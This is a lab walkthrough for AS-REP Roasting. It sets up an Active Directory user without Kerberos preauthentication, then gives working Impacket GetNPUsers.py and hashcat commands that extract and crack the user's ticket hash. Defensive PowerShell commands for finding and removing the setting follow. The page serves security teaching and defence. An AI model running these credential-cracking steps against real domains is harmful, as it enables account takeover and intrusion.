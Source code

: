 # AS-REP Roasting

## Configuring

### Prerequisite&#x20;

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

### Configuring

1. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (6) (1).png>)

2\. Click on "View" and enable "Avanced Features"

![](<../../../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

3\. Open "Employees", right click the user `Richard` and click on "Properties"

![](<../../../.gitbook/assets/image (64) (1) (1) (1) (1) (1).png>)

4\. Open "Account" and scroll to the bottom in "Account options", then select "Do not require kerberos preauthentication".

![](<../../../.gitbook/assets/image (39) (1) (1) (1).png>)

5\. Right click on `Richard` and select "Reset Password". Uncheck "User must change password at next logon" and fill in the password `Sample123`. Click on "OK"

![](<../../../.gitbook/assets/image (65) (1) (1) (1) (1).png>)

## Attacking

### How it works

When pre-authentication is not required, an attack can directly send a request for authentication. The KDC will return an encrypted TGT and the attacker can brute-force it offline.

### Tools

* [Impacket GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

### Executing the attack

1. Make sure impacket is installed and run the GetNPUsers.py tool with the users we enumerated earlier. The tool will check if any of the enumerated users doesn't require pre-authentication and will request a ticket which we can crack offline.

```
GetNPUsers.py amsterdam/ -usersfile users.txt -format hashcat -outputfile asreproastinng
```

![](<../../../.gitbook/assets/image (7) (1) (1) (1).png>)

2\. The tool doesn't say anything about users that don't require pre-authentication. Check if the outputfile exists and cat it:

```
cat asreproasting
```

![](<../../../.gitbook/assets/image (43) (1) (1) (1).png>)

3\. The user richard doesn't require pre-authentication and we have an hash from the TGT. Lets crack it with hashcat and [this](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200\_most\_used\_passwords.txt) wordlist. The hashcat parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `asreproasting`
* Password list: `2020-200_most_used_passwords.txt`

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200_most_used_passwords.txt
hashcat -a 0 -m 18200 asreproasting 2020-200_most_used_passwords.txt
```

![](<../../../.gitbook/assets/image (10) (1).png>)

4\. We succesfully cracked the password. The password for `Richard` is `Sample123`.

## Defending

### Recommendations

* Periodically check for users that don't require pre-authentication and remove the attribute.

Check for users with the attribute:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Select-Object samAccountName
```

Remove the attribute for a single user:

```
Set-ADAccountControl -DoesNotRequirePreAuth $false -Identity <USER>
```

Check for users with the attribute and remove it:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Set-ADAccountControl -DoesNotRequirePreAuth $false
```

### Detection



## References

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" %}
